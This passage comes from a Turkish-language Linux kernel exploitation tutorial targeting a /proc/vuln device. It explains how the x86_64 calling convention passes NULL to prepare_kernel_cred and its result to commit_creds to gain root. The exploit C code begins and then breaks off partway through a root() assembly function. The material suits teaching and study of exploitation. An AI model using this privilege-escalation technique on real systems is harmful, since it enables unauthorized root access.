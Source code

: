 Burda calling convention'ları devreye giriyor, bu arkadaşlar fonksiyon çağrılarında parametrelerin 
hangi registerlarda tutulacağını ve dönüş değerlerinin hangi reigsterlara yazılacağını belirtiyor.

Aşağıda linux `x86_64` calling convention'larının bir listesi:

![](assets/registers.png)

Burda görebileceğiniz gibi `prepare_kernel_cred` cred'e NULL parametresini `rdi` registerı aracılığı 
ile geçeceğiz, ardından `prepare_kernel_cred`in dönüş değerini `rax`dan okuyup yine `commit_creds`e 
`rdi` aracılığı ile vereceğiz.

O halde koda geçelim:
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <fcntl.h>

#define DEVICE "/proc/vuln"

void root(void)
{

    __asm__(
    ".intel_syntax noprefix;"
    
```
